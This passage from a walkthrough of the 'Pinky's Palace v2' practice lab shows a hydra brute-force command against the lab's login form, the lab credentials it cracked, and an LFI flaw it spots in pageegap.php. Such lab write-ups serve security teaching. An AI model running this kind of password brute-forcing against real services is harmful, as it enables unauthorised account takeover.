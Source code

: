 ## Pinky's Database

Pinky's Database Login (`http://pinkydb:7654/login.php`) is the attack surface we've been looking for!

![screenshot-1](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-1.png)

Remember the custom wordlist we built earlier? Now it's the time we put it to good use with `hydra`.

```
# echo pinky > usernames.txt
# echo pinky1337 >> usernames.txt
# hydra -L usernames.txt -P wordlist.txt -o hydra.txt -s 7654 pinkydb http-post-form /login.php:user=^USER^&pass=^PASS^:Invalid
[7654][http-post-form] host: pinkydb   login: pinky   password: Passione
[7654][http-post-form] host: pinkydb   login: pinky1337   password: entry
```

The credential (`pinky:Passione`) is the right one. Awesome.

![screenshot-2](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-2.png)

It's easy to spot the LFI vulnerability with `pageegap.php`. Also, notice something different? `pageegap` is a [palindrome](https://en.wikipedia.org/wiki/Palindrome). Creative file naming, eh?

![screenshot-3](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-3.png)


[1]: https://www.vulnhub.com/entry/pinkys-palace-v2,229/
[2]: https://twitter.com/@Pink_P4nther
[3]: https://www.vulnhub.com